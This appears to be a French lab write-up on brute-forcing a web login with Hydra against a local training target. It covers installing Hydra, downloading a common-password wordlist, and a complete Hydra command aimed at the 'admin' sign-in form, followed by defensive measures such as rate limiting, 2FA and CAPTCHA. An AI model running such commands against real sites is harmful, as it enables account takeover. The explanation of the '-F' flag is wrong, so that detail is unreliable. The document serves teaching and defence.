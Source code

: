 # Exploit 05 - Password bruteforcing

# Installation et utilisation de Hydra

Hydra est un outil de force brute open source conçu pour tenter de récupérer des mots de passe en effectuant des tentatives de connexion sur un serveur distant. Voici comment installer et utiliser Hydra à partir de son dépôt GitHub.

## Installation

1. **Clonez le dépôt Hydra** :
    Ouvrez un terminal et exécutez la commande suivante pour cloner le dépôt Hydra depuis GitHub :
    ```bash
    git clone https://github.com/vanhauser-thc/thc-hydra.git
    ```

2. **Accédez au dossier Hydra** :
    Changez de répertoire pour aller dans le dossier cloné :
    ```bash
    cd thc-hydra
    ```

3. **Configuration et compilation** :
    Configurez et compilez Hydra en exécutant les commandes suivantes :
    ```bash
    ./configure
    make
    ```

4. **Telechargement du dictionnaire de mots de passes** :
    ```bash
    wget https://lucidar.me/fr/security/files/100-most-common-passwords.txt
    mv 100-most-common-passwords.txt password.txt
    ```

## Utilisation

Tentez une connexion pour obtenir l'URL de connexion failed

Pour tester une connexion avec un utilisateur administrateur utilisez la commande suivante :

```bash
./hydra -l admin -P ./password.txt -F -o hydra.log 192.168.56.102 http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'
```

- `-l admin` spécifie l'utilisateur que nous essayons de pirater.
- `-P ./password.txt` indique le chemin vers un fichier contenant un dictionnaire de mots de passe.
- `-F` active le mode de force brute.
- `-o hydra.log` spécifie le fichier dans lequel stocker les résultats.
- `192.168.56.102` est l'adresse IP du site cible.
- `http-get-form` le type de la requete
- `/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif` est l'URL avec nos variables `USER` et `PASS` qui seront utilisées pour tester tous les mots de passe du dictionnaire.

Cette commande tente de se connecter en utilisant différents mots de passe du dictionnaire jusqu'à ce qu'elle trouve un mot de passe qui fonctionne, en affichant les résultats dans le fichier `hydra.log`.

## Protection contre ce genre de cas

Pour renforcer la sécurité des systèmes contre les attaques par force brute, plusieurs mesures importantes doivent être prises :

1. **Utilisation de mots de passe complexes**
   - Encourager les utilisateurs à créer des mots de passe longs et complexes, comprenant des lettres majuscules et minuscules, des chiffres et des caractères spéciaux.

2. **Limitation des tentatives de connexion**
   - Mettre en place des mécanismes pour limiter le nombre de tentatives de connexion infructueuses, en bloquant temporairement ou définitivement les comptes après un certain nombre d'échecs.

3. **Authentification multi-facteurs (2FA)**
   - Activer l'authentification à deux facteurs ajoute une couche supplémentaire de sécurité, rendant plus difficile pour un attaquant d'accéder au compte même s'il obtient le mot de passe.

4. **Surveillance des activités suspectes**
   - Surveiller de près les activités sur le réseau et les logs d'accès pour identifier rapidement les tentatives d'attaque par force brute.

5. **Utilisation de CAPTCHA**
   - Intégrer des tests CAPTCHA dans les formulaires de connexion pour distinguer les humains des bots automatisés.